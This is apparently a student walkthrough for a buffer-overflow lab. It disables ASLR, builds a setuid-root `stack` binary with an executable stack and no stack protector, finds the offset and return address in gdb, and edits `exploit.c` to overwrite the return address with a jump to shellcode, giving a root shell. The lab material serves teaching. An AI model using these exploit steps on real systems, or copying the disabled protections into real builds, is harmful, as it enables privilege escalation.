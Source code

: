 # preparation

disable address apace randomization

    sudo sysctl -w kernel.randomize_va_space=0

# test `call_shellcode.c`

    gcc -z execstack -o call_shellcode call_shellcode.c
    ./call_shellcode

A shell should be invoked here

# compile `stack.c`

    su root
    gcc -o stack -z execstack -fno-stack-protector stack.c
    chmod 4755 stack
    exit

# check return & buffer address

    gdb stack
    disas bof

Take the offset of the instruction `<strcpy>` as N

    b *(bof+0)
    b *(bof+N)
    r
    x/x $esp

You can get `addrA: xxxx` which shows the memory that contains return address

    c
    x/x $esp

Here you'll get `xxxx: addrB` which represents the start address of `buffer`

    p addrA-addrB
    p/x addrA+0x4

Copy ***OFFSET*** *= addA - addrB* and ***RETURN*** *= addrA+0x4* calculated above, then quit gdb

    q
    y

# edit `exploit.c`

insert codes after `memset(&buffer, 0x90, 517);`

```c
long addr = RETURN;
long *ptr = (long *) (buffer + OFFSET);
*ptr = addr;

strcpy(buffer + OFFSET + 4, shellcode);
```

# compile `exploit.c` and run!

    gcc -o exploit exploit.c
    ./exploit
    ./stack

You should see a **#** here, which means you've got a root shell!
